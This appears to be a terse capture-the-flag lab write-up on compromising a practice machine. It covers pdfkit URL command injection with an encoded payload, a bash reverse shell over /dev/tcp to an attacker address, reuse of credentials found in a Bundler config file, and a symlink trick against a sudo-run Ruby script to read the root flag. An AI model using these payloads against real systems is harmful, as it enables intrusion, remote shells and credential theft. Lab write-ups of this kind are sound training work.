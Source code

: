 T="10.129.80.224"

What able to get a response when passing:
url=http://`ls -al`
Noticed pdfkit and version

Googled and snyk came up: https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795

Confirmed command execution.
> **Note**
> The whole payload needed to be url encoded:
> http://%20`sleep 5`
> become:
> http%3a//%2520`sleep+5`

For reverse shell (same note about url encodig):
> http://%20`bash -c "bash -i >& /dev/tcp/10.10.14.70/9001 0>&1"`

Once in checked out `bundle config list`
Found username and password ~/.bundle/config, `su henry` with password, grabbed user flag.

Checked `sudo -l` noticed `/opt/update_dependancies.rb` is trying to read a `dependancies.yml`

Moved to director where henry had write access

Created `ln -s /root/root.txt dependancies.yml` re-ran and error message outputted the flag.
